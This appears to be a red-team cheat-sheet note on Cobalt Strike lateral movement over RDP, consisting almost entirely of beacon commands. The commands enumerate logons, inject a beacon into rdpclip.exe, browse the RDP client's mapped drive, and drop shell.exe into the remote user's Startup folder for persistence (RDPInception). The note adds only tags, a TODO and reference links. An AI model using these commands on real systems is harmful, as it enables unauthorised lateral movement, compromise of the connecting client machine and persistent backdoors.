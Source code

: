 # Cobalt Strike

Search Tag(s): #lateral-movement #rdp #cobalt-strike #windows

TODO: Convert this with other C2 frameworks including other sections and test this

## RDP Process Injection

```
beacon> net groups

beacon> net logons

beacon> ps

beacon> inject <rdpclip.exe_pid> x64 <listener>
```

## RDPInception

```
beacon> net logons

beacon> ps

beacon> inject <rdpclip.exe_pid> x64 <listener>

beacon> ls \\tsclient\c

beacon> upload shell.exe \\tsclient\c\Users\<username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x07 - Maintaining Access/Persistence/Windows/Host Persistence/Backdoors/Startup/Manual/Living off the Land|Startup Persistence]]

### Hacktricks

- [Hacktricks: RDP Sessions Abuse](https://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/rdp-sessions-abuse.html)